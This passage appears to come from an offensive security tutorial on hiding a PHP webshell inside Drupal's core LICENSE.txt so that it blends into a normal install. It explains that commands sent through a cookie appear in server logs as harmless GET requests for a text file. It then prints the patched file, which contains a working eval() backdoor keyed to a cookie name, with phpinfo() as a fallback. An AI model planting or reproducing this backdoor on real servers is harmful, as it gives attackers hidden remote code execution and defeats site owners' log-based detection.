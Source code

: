 Why is this trick cool?

Because once the Webshell (that we’ll call LICENSE.txt ) is dropped onto the Web server, we can transmit our commands via `$_COOKIE` and in the Web server logs, this will show up as a legitimate GET request to a text file.

Why name our Webshell LICENSE.txt?

Simply because if we take the following file, for example [core/LICENSE.txt](https://github.com/drupal/drupal/blob/11.x/core/LICENSE.txt) (which is already present in the Drupal core), we have a file of 339 lines and 17.6 KB in size, which is perfect for adding a small snippet of PHP code in the middle (since the file is big enough).

<figure><img src="../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

File: Patched LICENSE.txt

```txt

...

this License, you may choose any version ever published by the Free Software
Foundation.

<?php

# We inject our payload into the cookies so that in the logs of the compromised
# server it shows up as having been requested via the GET method, in order to
# avoid raising suspicions.
if (isset($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
    if (!empty($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
        eval($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"]);
    } else {
        phpinfo();
    }
}

?>

  10. If you wish to incorporate parts of the Program into other free
programs whose distribution conditions are different, write to the author
```